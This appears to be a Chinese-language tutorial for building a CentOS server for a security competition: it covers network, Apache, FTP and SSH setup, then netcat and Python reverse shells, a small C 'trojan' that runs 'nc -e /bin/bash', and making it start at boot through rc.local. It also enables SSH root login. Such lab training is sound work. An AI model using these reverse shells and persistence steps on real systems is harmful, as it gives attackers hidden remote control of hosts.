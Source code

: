 # centos比赛场景的服务器场景还原


### centos 自动联网
```shell
>>>cd /etc/sysconfig/network-scripts
>>>vi ifcfg-eth0 #修改ONBOOT=no 改为 ONBOOT=yes
>>>service network restart
```
### HTTP服务的安装
>下面是基础的使用知识，附赠一个php站点的搭建实例[dvwa搭建](http://blog.csdn.net/isinstance/article/details/54090936)
```shell
>>> yum install httpd 
>>> vim /etc/httpd/conf/httpd.conf #apache2的配置(题外话：apt-get install apache2　是一样的)
>>> echo "hello class" > /var/www/html/index.html #写一个首页
>>> service httpd restart

```

### FTP服务的安装

安装后要把chroot_list_enable=NO这样设置，不然就要指定chroot_list
```shell
>>>yum install -y vsftpd #安装ftp服务
>>>yum install -y lftp #安装测试ftp服务的工具
>>>vim /etc/vsftpd/vsftpd.conf
>>>service vsftpd start #启动ftp服务
>>>service vsftpd status #查看服务的状态
>>>lftp 127.0.0.1 #查看是否可以链接ftp
>>>lftp 127.0.0.1 -u root #指定用户登录
```


### SSH服务的安装

```shell
>>>yum install openssh*#安装ssh服务，对应的(apt-get install ssh)
```
```shell
vi /etc/ssh/sshd_config #打开配置文件
```
把下面两个配置的＃去掉
```shell
PermitEmptyPasswords no
PasswordAuthentication yes
PermitRootLogin yes　＃确保root可以登录，同理如果做安全加固，这里要注释掉
```
重启
```shell
service sshd.service restart #重启服务
chkconfig sshd on　#设置开机启动
```

### GCC的安装
>gcc是c语言程序的编译程序

```shell
>>> yum install gcc* 
```

### python
>python是自带的不需要安装。。

### nmap
>[nmap详解](http://blog.csdn.net/github_35068711/article/details/51530422)

### c语言编译
>这里面我们讲解一下c语言程序简单的编译技巧
首先安装gcc
```shell
>>> yum install gcc*
```
其次写一个c代码的文件hello.c
```c
#include<stdlib.h>
    int main(int argc,char **argv)
    {
        printf("Hello,Linux.\n");
        exit(0);
    }
```
对单个文件进行编译

```shell
>>>gcc -o hello hello.c
>>>./hello #执行
```

### nc反射
>nc全名是netcat　是一个网络工具，这里面我们使用它来完成我们的反射需要两个电脑

在自己电脑上开启一个端口监听
```shell
>>> nc -l -p 8080 #在自己电脑监听8080端口，用来等待另外一端连接我们
>>> nc -e /bin/bash 192.168.1.101 8080 #在目标电脑上反向连接我们的电脑8080端口，ip是我们自己的ip
>>> ifconfig #在我们自己电脑上执行命令，这就可以对服务器进行操作了，这个叫反射
```
下面我们来完成一个python语言版本的shell反射
```shell
>>> nc -l -p 8080 #在自己电脑监听8080端口，用来等待另外一端连接我们
>>> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
>>> ifconfig #在本机执行命令
```

### 下面完成我们的任务，编译一个木马，然后利用nc反射一个shell
先编写一个简单的反射shell的c代码
```c
#include<stdlib.h>
main()
{
system(“nc -e /bin/bash 127.0.0.1”);
}
```
或者用下面的版本system.c，反正都是简单的实现
```c
#include<stdlib.h>
int main(int argc,char* argv[])
{
char shell_cmd[100];
sprintf(shell_cmd,"nc -e /bin/bash %s %s",argv[1],argv[2]);
system(shell_cmd);
}
```
### 下面我们来完成完成编译，执行，反射

```shell
>>> gcc -o shelltest system.c #编译c代码
>>> chmod +x shelltest
>>> nc -l -p 8080 #本地电脑监听8080端口
>>>./shelltest 127.0.0.1 8080 ＃目标电脑木马反向连接自己的电脑
>>> ifconfig #本地电脑执行命令验证结果
```
### 让我们把这个小“木马”放进开机启动
```shell
>>>chmod +x shelltest
>>>chmod +x /etc/rc.d/rc.local 
>>>vim /etc/rc.d/rc.local＃编辑它并在里面协商./xxx/xx/xx/shelltest
>>>reboot #重启看看效果
```
